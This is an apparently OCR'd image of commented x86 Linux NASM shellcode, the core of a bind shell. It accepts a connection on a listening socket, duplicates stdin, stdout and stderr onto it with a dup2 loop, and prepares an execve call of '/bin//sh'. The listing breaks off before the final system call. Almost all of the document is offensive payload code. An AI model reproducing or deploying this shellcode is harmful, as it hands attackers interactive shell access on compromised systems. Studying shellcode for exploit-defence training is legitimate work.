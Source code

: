 ```nasm
    ;
    ; accept() code block
    ;

    ; push NULL for addrlen
    push eax

    ; push NULL for addr
    push eax

    ; __NR_socketcall 102
    mov al, 0x66

    ; #define SYS_ACCEPT 5
    inc ebx

    ; push EDX for sockfd
    push edx

    ; save arguments pointer to ECX, ping kernel!
    mov ecx, esp
    int 0x80

    ;
    ;dup2() code block
    ; 

    ; store EAX in EBX for peer socketfd from accept()
    xchg eax, ebx

    ; reset ECX (counter register) for newfd loop
    xor ecx, ecx

    ; set counter to 2
    add cl, 0x2

    ; loop for stdin, stdout, and stderr
    ; syscall for __NR_dup2 63
    ; ping kernel 3 times!

dup:
    mov al, 0x3f
    int 0x80
    dec cl
    jns dup

    ;
    ;execve() code block
    ;

    ; push NULL followed by "/bin//sh" for filename
    push eax
    push 0x68732f2f
    push 0x6e69622f

    ; store ESP pointer to "/bin//sh" in EBX
    mov ebx, esp

    ; save arguments pointer to ECX
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
```